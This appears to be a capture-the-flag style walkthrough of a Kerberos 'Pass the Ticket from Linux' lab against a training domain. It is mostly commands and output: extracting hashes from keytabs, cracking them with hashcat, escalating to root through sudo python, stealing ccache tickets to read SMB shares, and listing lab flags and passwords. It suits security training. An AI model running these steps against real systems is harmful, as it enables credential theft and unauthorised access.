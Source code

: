 # Pass the Ticket (PtT) from Linux

SSH with user "`david@inlanefreight.htb`" and password "`Password2`"

### Connect to the target machine using SSH to the port TCP/2222 and the provided credentials. Read the flag in David's home directory.

```bash
ssh david@inlanefreight.htb@10.129.198.144 -p2222
cat flag.txt
Gett1ng_Acc3$$_to_LINUX01
```

### Which group can connect to LINUX01?

```bash
realm list
inlanefreight.htb
  type: kerberos
  realm-name: INLANEFREIGHT.HTB
  domain-name: inlanefreight.htb
  configured: kerberos-member
  server-software: active-directory
  client-software: sssd
  required-package: sssd-tools
  required-package: sssd
  required-package: libnss-sss
  required-package: libpam-sss
  required-package: adcli
  required-package: samba-common-bin
  login-formats: %U@inlanefreight.htb
  login-policy: allow-permitted-logins
  permitted-logins: david@inlanefreight.htb, julio@inlanefreight.htb
  permitted-groups: Linux Admins
```

Linux Admins

### Look for a keytab file that you have read and write access. Submit the file name as a response.

```bash
find / -name *keytab* -ls 2>/dev/null
   262184      4 -rw-rw-rw-   1 root     root          216 Oct 25  2022 /opt/specialfiles/carlos.keytab
```

carlos.keytab

### Extract the hashes from the keytab file you found, crack the password, log in as the user and submit the flag in the user's home directory.

```bash
#lets copy this file into our kali machine
scp -P 2222 david@inlanefreight.htb@10.129.80.243:/opt/specialfiles/carlos.keytab . 
scp -P 2222 david@inlanefreight.htb@10.129.80.243:/opt/keytabextract.py .
```

Let's use [KeyTabExtract](https://github.com/sosdave/KeyTabExtract), a tool to extract valuable information from 502-type .keytab files

```bash
python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab 
[*] RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
[+] Keytab File successfully imported.
        REALM : INLANEFREIGHT.HTB
        SERVICE PRINCIPAL : carlos/
        NTLM HASH : a738f92b3c08b424ec2d99589a9cce60
        AES-256 HASH : 42ff0baa586963d9010584eb9590595e8cd47c489e25e82aae69b1de2943007f
        AES-128 HASH : fa74d5abf4061baa1d4ff8485d1261c4
```

lets crack it now

<pre class="language-bash"><code class="lang-bash">echo 'a738f92b3c08b424ec2d99589a9cce60' > hash.txt    
hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt
<strong>#a738f92b3c08b424ec2d99589a9cce60:Password5
</strong>ssh carlos@inlanefreight.htb@10.129.80.243 -p2222
cat flag.txt 
C@rl0s_1$_H3r3
</code></pre>

### Check Carlos' crontab, and look for keytabs to which Carlos has access. Try to get the credentials of the user svc\_workstations and use them to authenticate via SSH. Submit the flag.txt in svc\_workstations' home directory.

```bash
crontab -l
*/5 * * * * /home/carlos@inlanefreight.htb/.scripts/kerberos_script_test.sh
cd .scripts
python3 /opt/keytabextract.py svc_workstations._all.kt 
#[*] RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
#[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
#[*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
#[+] Keytab File successfully imported.
#        REALM : INLANEFREIGHT.HTB
#        SERVICE PRINCIPAL : svc_workstations/
#        NTLM HASH : 7247e8d4387e76996ff3f18a34316fdd
#        AES-256 HASH : 0c91040d4d05092a3d545bbf76237b3794c456ac42c8d577753d64283889da6d
#        AES-128 HASH : 3a7e52143531408f39101187acc80677
#python3 /opt/keytabextract.py svc_workstations.kt 
#        AES-256 HASH : 0c91040d4d05092a3d545bbf76237b3794c456ac42c8d577753d64283889da6d
```

lets crack it now

```bash
hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt  
#7247e8d4387e76996ff3f18a34316fdd:Password4                
```

now we login to svc workstations user

```bash
ssh svc_workstations@inlanefreight.htb@10.129.80.243 -p2222
cat flag.txt 
Mor3_4cce$$_m0r3_Pr1v$
```

### Check svc\_workstation's sudo privileges and get access as root. Submit the flag in /root/flag.txt directory as the response.

```bash
sudo -l
#    (ALL) ALL
#go to https://gtfobins.github.io
which python3
sudo python3 -c 'import os; os.system("/bin/sh")'
whoami #root
cat /root/flag.txt 
Ro0t_Pwn_K3yT4b
```

### Check the /tmp directory and find Julio's Kerberos ticket (ccache file). Import the ticket and read the contents of julio.txt from the domain share folder \DC01\julio.

```bash
#as root user
env | grep -i krb5
KRB5CCNAME=FILE:/tmp/krb5cc_647401109_25wRXV
ls -la /tmp
#now to import the ticket
cp /tmp/krb5cc_647401106_fD3oWV .
export KRB5CCNAME=/root/krb5cc_647401106_fD3oWV 
klist
#Ticket cache: FILE:/root/krb5cc_647401106_fD3oWV
#Default principal: julio@INLANEFREIGHT.HTB
#Valid starting       Expires              Service principal
#02/21/2024 17:30:01  02/22/2024 03:30:01  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
#        renew until 02/22/2024 17:30:01
smbclient \\\\DC01\\julio -k -c ls -no-pass
#  .                                   D        0  Thu Jul 14 12:25:24 2022
#  ..                                  D        0  Thu Jul 14 12:25:24 2022
#  julio.txt                           A       17  Thu Jul 14 21:18:12 2022
smbclient \\\\DC01\\julio -k -c 'get julio.txt' -no-pass
#getting file \julio.txt of size 17 as julio.txt (16.6 KiloBytes/sec) (average 16.6 KiloBytes/sec)
cat julio.txt 
JuL1()_SH@re_fl@g
```

### Use the LINUX01$ Kerberos ticket to read the flag found in \\\DC01\linux01. Submit the contents as your response (the flag starts with Us1nG\_).

```bash
find / -name *krb*.keytab 2>/dev/null
kinit LINUX01$ -k -t /etc/krb5.keytab 
klist
#Ticket cache: FILE:/root/krb5cc_647401106_fD3oWV
#Default principal: LINUX01$@INLANEFREIGHT.HTB
#Valid starting       Expires              Service principal
#02/21/2024 17:52:31  02/22/2024 03:52:31  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
#        renew until 02/22/2024 17:52:30
smbclient \\\\DC01\\linux01 -k -c ls -no-pass
#  flag.txt                            A       52  Wed Oct  5 14:17:02 2022
smbclient \\\\DC01\\linux01 -k -c 'get flag.txt' -no-pass
cat flag.txt
Us1nG_KeyTab_Like_@_PRO
```
